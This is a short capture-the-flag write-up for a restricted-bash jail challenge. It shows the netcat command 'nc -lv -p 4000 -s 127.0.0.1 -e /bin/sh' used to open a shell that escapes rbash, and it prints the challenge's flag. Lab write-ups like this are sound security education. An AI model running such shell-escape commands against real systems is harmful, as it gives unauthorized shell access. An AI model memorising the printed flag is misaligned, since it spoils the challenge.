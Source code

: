 # Rbash Warmup
### JAIL - Easy

Welcome to the restricted shell! Demonstrate RCE on this rbash setup by running the /flag binary executable, and you will be awarded with the flag!
Connect via TCP:rbash-warmup.sdc.tf:1337

By k3v1n


## Solution

After testing available commands for this version of restricted bash, I saw that you can use `nc`. Great! I started server process in the background:
```shell
$ nc rbash-warmup.sdc.tf 1337
rbash-5.0$ nc -lv -p 4000 -s 127.0.0.1 -e /bin/sh & 

[1] 3
listening on [127.0.0.1] 4000 ...
```

Then I used `nc` again to connect to this server and use normal sh instead of restricted version:
```shell
rbash-5.0$ nc 127.0.0.1 4000
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58068

/flag
sdctf{nc--e-IS-r3aLLy-D4NG3R0U5!}
```

#### Flag: sdctf{nc--e-IS-r3aLLy-D4NG3R0U5!}
